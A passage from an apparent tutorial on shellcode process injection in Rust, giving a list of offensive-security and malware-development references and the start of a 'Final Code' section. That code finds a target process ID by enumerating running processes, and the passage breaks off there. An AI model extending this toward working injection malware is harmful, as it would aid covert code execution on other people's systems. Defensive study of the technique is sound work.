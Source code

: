 Any feedback will be appreciated.


## References

* [https://learn.microsoft.com/en-us/windows/dev-environment/rust/](https://learn.microsoft.com/en-us/windows/dev-environment/rust/)
* [https://microsoft.github.io/windows-docs-rs/doc/windows/](https://microsoft.github.io/windows-docs-rs/doc/windows/)
* [https://socradar.io/why-ransomware-groups-switch-to-rust-programming-language/](https://socradar.io/why-ransomware-groups-switch-to-rust-programming-language/)
* [https://crates.io/crates/windows](https://crates.io/crates/windows)
* [https://doc.rust-lang.org/book/](https://doc.rust-lang.org/book/)
* [https://www.ired.team/offensive-security/code-injection-process-injection/process-injection](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection)
* [https://institute.sektor7.net](https://institute.sektor7.net)
* [https://maldevacademy.com](https://maldevacademy.com)
* [https://syrion.me/malware/rustware-part-1-shellcode-process-injection-development/](https://syrion.me/malware/rustware-part-1-shellcode-process-injection-development) 
* [https://attack.mitre.org/techniques/T1055/](https://attack.mitre.org/techniques/T1055/)


## Final Code

```rust
use std::{ffi::c_void, mem::size_of, mem::transmute};

use windows::{
    Win32::Foundation::CloseHandle, Win32::System::Diagnostics::Debug::*,
    Win32::System::Diagnostics::ToolHelp::*, Win32::System::Memory::*, Win32::System::Threading::*,
};

fn find_pid(target_process_name: &str) -> u32 {
    let mut pe32: PROCESSENTRY32 = PROCESSENTRY32 {
        ..Default::default()
    };
    let mut cur_process_name;
    let mut result_process32;

    pe32.dwSize = size_of::<PROCESSENTRY32>() as u32;

    unsafe {
        let result_createtoolhelp32snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

        match result_createtoolhelp32snapshot {
            Ok(handle_procsnap) => {
                result_process32 = Process32First(handle_procsnap, &mut pe32);

                loop {
                    match result_process32 {
                        Ok(_) => {
                            cur_process_name = std::str::from_utf8(&pe32.szExeFile)
                                .unwrap()
                                .trim_matches(char::from(0));

                            if cur_process_name.to_lowercase() == target_process_name.to_lowercase()
                            {
                                println!(
                                    "Find {} PID: {}",
                                    target_process_name, pe32.th32ProcessID
                                );
                                let _ = CloseHandle(handle_procsnap);
                                return pe32.th32ProcessID;
```